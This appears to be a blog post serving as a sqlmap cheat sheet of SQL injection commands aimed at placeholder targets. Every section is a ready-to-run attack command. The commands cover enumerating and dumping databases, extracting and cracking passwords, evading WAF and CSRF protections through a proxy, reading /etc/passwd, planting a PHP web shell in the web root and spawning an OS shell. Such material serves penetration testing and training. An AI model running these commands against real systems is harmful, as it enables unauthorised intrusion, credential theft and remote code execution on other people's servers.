 ```yaml
---
layout: post
title: Sqlmap
date: '2023-11-16 14:47:19 +0300'
---
```


## Passing an HTTP request file to SQLMap
```bash
sqlmap -r req.txt
```

## 	Specifying a cookie header
```bash
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

## Specifying a PUT request
```bash
sqlmap -u www.target.com --data='id=1' --method PUT
```

## Store traffic to an output file
```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

## Specify verbosity level
```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

## Specifying a prefix or suffix
```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

## Specifying the level and risk
```bash
sqlmap -u www.example.com/?id=1 -v 3 --level=5
```

## Basic DB enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

## Table enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

## Table/row enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

## Conditional enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

## Database schema enumeration
```bash
sqlmap -u "http://www.example.com/?id=1" --schema
```

## Searching for data
```bash
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

## Password enumeration and cracking
```bash
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

## Bypassing Web Application Protections
```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
--proxy="socks4://177.39.187.70:33283"
--skip-waf
--random-agent
```

## List all tamper scripts
```bash
sqlmap --list-tampers
```

## Check for DBA privileges
```bash
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

## Reading a local file
```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

## Writing a file
```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## Spawning an OS shell
```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```